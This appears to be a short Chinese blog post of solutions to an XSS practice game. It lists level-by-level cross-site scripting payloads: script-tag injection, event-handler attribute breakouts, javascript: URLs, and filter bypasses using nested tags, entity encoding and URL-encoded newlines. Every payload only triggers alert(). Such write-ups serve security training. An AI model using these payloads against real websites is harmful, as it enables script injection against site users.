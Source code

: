 ```yaml
---
layout: post
title: "xss的语句"
date: 2018-10-05
category: web安全
tags: xss web安全
---
```

这是一个xss的闯关游戏  

[下载链接:](https://pan.baidu.com/s/1bqtFVGrc4TlihuWT2TBxtQ)  
提取码: isre  

xss的语句

	1
	<script>alert(/xss/)</script>
	2
	"><script>alert(/xss/)</script>

	3

	'onmouseover='alert(/xss/)'

	4
	" oninput=alert`xss`//
	" onfocus=alert`xss` autofocus= "
	" onchange=alert`xss` "


	<img src=x onerror=alert(/xss/)>

	5

	"><a href=javascript:alert(/xss/)>

	6
	"><A HREF=javascript:alert(/xss/)>

	7
	"><scrscriptipt>alert(/xss/)</scscriptript>

	8
	html 字符实体编码转换
	java&#x73;cript:alert(1)

	9
	java&#x73;cript:alert(1)/*http://*/

	10
	&t_sort=a" onclick="alert(1)"

	15
	urlencode
	%0a%0d
	<img%0asrc=xx%0aonerror=alert(/xss/)>

## LINKS

[xss_payload](http://html5sec.org/#html5)

